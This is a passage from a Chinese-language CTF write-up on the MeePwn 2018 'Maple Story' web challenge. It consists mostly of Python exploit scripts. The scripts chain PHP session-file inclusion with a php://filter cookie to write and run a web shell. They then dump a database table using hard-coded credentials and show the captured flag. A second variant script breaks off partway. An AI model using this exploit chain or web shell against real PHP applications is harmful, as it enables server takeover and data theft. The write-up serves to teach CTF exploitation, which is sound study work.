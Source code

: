 ```python
    r = requests.get(url, cookies=cookie, params=payload)
    return r.content


# edit your cookie['PHPSESSID'] & user_email to run this script
url = "http://178.128.87.16/"
user_email = "ojbk@qq.com"
salt = 'ms_g00d_0ld_g4m3'
cookie = dict(
    PHPSESSID='8es749ivbfetvsmsc0ggthr2e5',
    _role='a2ae9db7fd12a8911be74590b99bc7ad1f2f6ccd2e68e44afbf1280349205054',
    a="php://filter/convert.base64-decode/resource=upload/%s/command.txt" %
    hashlib.md5(salt + user_email).hexdigest())
change_name('<?=include"$_COOKIE[a]')
# 修改用户名使读Session文件时包含进Cookie['a']，即command.txt得base64解码
cmd = base64.b64encode("<?=`$_GET[f]`;")  #'PD89YCRfR0VUW2ZdYDs='
command(cmd[:19])  # 往command.txt写入base64编码的shell，缺少最后一个等号也可正常解码
give_pet(user_email)  # 使Session文件中的action值为"Give $pet to  player $username"
cmd = "mysql -e'select * from mapl_config' -umapl_story_user -ptsu_tsu_tsu_tsu mapl_story"
print shell(cmd)
# mapl_salt      mapl_key        mapl_now_get_your_flag
# ms_g00d_0ld_g4m3        You_Never_Guess_This_Tsug0d_1337        MeePwnCTF{__Abus1ng_SessioN_Is_AlwAys_C00L_1337!___}
```

# 另一种思路：拼接`$_SESSION` 变量

另外， [这篇文章](https://movrment.blogspot.com/2018/07/meepwn-ctf-2018-qual-maple-s.html) 里提供的一种拼接`$_SESSION` 变量的做法虽不比前者综合利用多处缺陷的优雅，但最大化地利用了单点的缺陷，很有创意，值得学习。

```python
# -*- coding: utf-8 -*-
# by https://findneo.github.io/

import requests, hashlib, base64


def change_name(character_name):
    payload = dict(name=character_name, submit='Edit')
    r = requests.post(url + "?page=setting.php", cookies=cookie, data=payload)


def give_pet(user_email):
    payload = dict(pet="babydragon", email=user_email, submit="Give")
    r = requests.post(url + '?page=admin.php', cookies=cookie, data=payload)
    return r.content


def shell(cmd='uname'):
    payload = dict(
        page="/var/lib/php/sessions/sess_" + cookie['PHPSESSID'], f=cmd)
    r = requests.get(url, cookies=cookie, params=payload)
    return r.content


# edit your cookie['PHPSESSID'] & user_email to run this script
url = "http://178.128.87.16/"
user_email = "mapl@qq.com"
salt = 'ms_g00d_0ld_g4m3'

cookie = dict(
    PHPSESSID='8es749ivbfetvsmsc0ggthr2e5',
    _role='a2ae9db7fd12a8911be74590b99bc7ad1f2f6ccd2e68e44afbf1280349205054',
```